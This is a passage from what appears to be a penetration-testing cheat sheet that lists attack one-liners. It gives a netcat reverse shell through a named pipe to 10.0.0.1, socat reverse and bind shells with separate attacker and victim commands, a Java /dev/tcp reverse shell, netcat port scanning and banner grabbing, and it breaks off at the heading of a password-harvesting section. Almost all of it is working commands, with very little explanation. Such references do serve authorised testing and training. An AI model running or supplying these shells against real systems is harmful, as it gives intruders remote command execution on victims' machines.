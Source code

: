 ```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Netcat port scanner

```sh
echo "" | nc -nvw2 <IP> <Port Range>
```

Netcat and OpenSSL banner grabbing

```sh
ncat -vC --ssl www.target.org 443
openssl s_client -crlf -connect www.target.org:443
```

## Socat

Reverse shell:

On the attack platform:

```sh
root@attacker# socat file:`tty`,raw,echo=0 tcp-listen:5555
```

On the victim platform:

```sh
user@victim $ socat tcp-connect:<Attacker IP>:5555 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

Bind shell:

On the attack platform:

```sh
root@attacker# socat FILE:`tty`,raw,echo=0 TCP:<Target IP>:5555
```

On the victim platform:

```sh
user@victim $ socat TCP-LISTEN:5555,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Java

```sh
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# Password Harvesting

Passwords can be found in many places
